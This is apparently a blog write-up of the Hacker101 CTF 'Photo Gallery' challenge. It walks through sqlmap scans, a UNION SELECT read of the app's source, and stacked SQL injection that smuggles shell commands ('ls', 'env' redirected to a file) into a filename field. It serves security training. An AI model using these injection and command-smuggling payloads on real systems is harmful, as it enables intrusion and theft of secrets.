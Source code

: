 ```yaml
---
title: Hacker101 CTF Photo Gallery writeup
description: A write up for the Photo Gallery [moderae] challenge
published: true
datePublished: 1609676431536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - security
thumbnailPhoto: /hackerone/hackerone.png
bannerPhoto: /hackerone/hackerone.png
canonicalUrl:
---
```


# Photo Gallery _[moderate]_

This is my Write Up for the "Photo Gallery" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to be an image gallery, but one of the images is broken.
The missing one is called `Invisible`, so lets look into that.

```
http://34.74.105.127/ad3e8c7df9/
```

![initial page](/hackerone/photogallery-start.png "initial page")

## Information gathering

with Burp we were able to find that the server returns no content for this image.
images are loaded with a `GET` Request to the server like so:

`GET /ad3e8c7df9/fetch?id=1 HTTP/1.1`

this also aligns with the first tip we are provided:

> Hint 1: _Consider how you might build this system yourself. What would the **query for fetch** look like?_

naturally we start fuzzing the `id` parameter.

```python
GET /ad3e8c7df9/fetch?id=4 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=0 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=-1 HTTP/1.1 # 500
```

alright, no quick wins, so let's give it a try with fizzing using sqlmap.
Quickly we are able to see that the server seems to be vulnerable to some attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2"
```

This command runs for quite a while and will try to find vulnerabilities in the fetch endpoint.
when we are done we should know what to do next.

## Gathered Data

### sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:

```python
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3567=3567

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 8480 FROM (SELECT(SLEEP(5)))KHRS)
```

```python
[21:44:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

### Our Target Server:

    | Type      | Service      | Version                  | Vulnerable?    |
    | --------- | ------------ | ------------------------ | -------------- |
    | OS        | Linux Ubuntu | ??                       | not focused    |
    | Webserver | Nginx        | 1.14.0                   | no             |
    | Database  | MySQL        | >= 5.0.12 (MariaDB fork) | yes (id param) |

Good, we got something, we know the server is vulnerable to multiple vulnerabilities such as a 'boolean base blind'. We also found the Webserver is Nginx v1.14.0, which sadly has no usable vulnerabilities here. But with us now knowing the exact os and DB System used lets run sqlmap again with that info and see what we get.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2" -f --os=linux --dbms=mysql --level=3 -o
```

we dont really get any more useful information from here.
soo.. were kinda stuck lets just get another hint then:

> Hint 2: _Take a few minutes to consider the **state of the union**_

The state uf the union? are they hinting on using UNION statements in the query?
_The UNION operator is used to combine the result-set of two or more SELECT statements._
That seems like somethng we can make use of, so lets try and combine our query statements f.e. like this:

`http://34.74.105.127/ad3e8c7df9/fetch?id=2 UNION SELECT 'something'`

but what do we look for? Lets get another hint.

> Hint 3: _This application runs on the **uwsgi-nginx-flask-docker** image_

uwsgi-nginx? hmm havent heard of that, but sems to be some kind of portable all in one flask. lets look for the docs.

https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files

> uWSGI can be configured using several different methods.

YAML, JSON, INI are some supported formats -> ini beeing the defualt so lets try getting the 'uwsgi.ini' file?

![union select wiht burp repeater](/hackerone/union-select-ini.png "union select wiht burp repeater")

this returns us some configdata pointing to module main which is the entrypoint.

```python
[uwsgi]
module = main
callable = app
```

so lets see if we can also fethc the main.py

```python
http://35.190.155.168/c947e97f6e/fetch?id=4%20UNION%20SELECT%20%27main.py%27--
```

Here we get lots of infos our **first FLAG** and the db connection settings:

### FLAG 0:

```python
%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404)
# It's dangerous to go alone, take this: # ^FLAG^9e6d57c394c129??????????????????????????????f74dbf2faa0abd571b32c7$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```

`return MySQLdb.connect(host="localhost", user="root", password="", db="level5")`

we also see that they are using the photos table

`cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`

lets try to fuzz that with sqlmap, since we now know the DB and tables info we can launch a targeted attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=1" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 2
```

This can take quite a while.. for me it crashed after 40 minutes, so i gave it another go with just focusing on the column `filename` since, here is the value we need.we do this by adding the -C parameter, i also increased the thradcount to 4 to try and get faster results. I also changed the url to contain id=3 since this is the id we want to get the info from.

```python
sqlmap -u "http://35.190.155.168/c947e97f6e/fetch?id=3" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 4 -C filename
```

This means that sqlmap will start with the filename of id=3 which is exactly what we want right now.

![starts to query filename of id 3](/hackerone/photo-gallery-hash.png "query on the filename of id 3")
So lets have a look at our results:

```python
Database: level5
Table: photos
[3 entries]
+------------------------------------------------------------------+
| filename |
+------------------------------------------------------------------+
| 9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa |
| files/adorable.jpg |
| files/purrfect.jpg |
+------------------------------------------------------------------+
```

> you might be getting partial values like so:
> `9ef8fc5di15625db993f1c8e120beafc6873d801a804670?????????????????`
> you should be able to re-run sqlmap to find the missing characters
> `9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa`

decrypted: `\*||+ls+-a+tmp.txt`
another file! nice lets try and get that with a UNION STATEMENT request like so:

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'tmp.txt'-- HTTP/1.1`
hmm no luck it seems... let's do it another way.

From our previous findings we know that files are in the 'files' directory and that we can run sql statements on the id param. So we want to try to move the file or its contents so we can access it. We also got a new hint of using ls output to find temp file.

We want to run following statements via the vulnerable param:

#### ls in the /files directory and store data in bigWin.txt

`update photos set filename='* || ls ./files >bigWin.txt ' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename=%27\*%20||%20ls%20./files%20%3EbigWin.txt%20%27%20where%20id=3;%20commit;%20-- HTTP/1.1`

#### store all env data in bigWin.txt (because so often flags are here)

`update photos set filename='* || env >bigWin.txt' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename%3D%27*%20%7C%7C%20env%20%3Etmp.txt%27%20where%20id%3D3%3B%20commit%3B%20-- HTTP/1.1`

after you succsessfully ran those you should be able to run the union select again to get ahold of bigWin.txt!

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'bigWin.txt'-- HTTP/1.1`

Tadaa!! we got it all.

```bash
"^FLAG^9ef8fc5da15????????????????????????????????????????????782ca11fa$FLAG$"
"^FLAG^63a407d0083????????????????????????????????????????????4564ee9f2$FLAG$"
HOSTNAME=ad3e8c7df92d
SHLVL=0
```
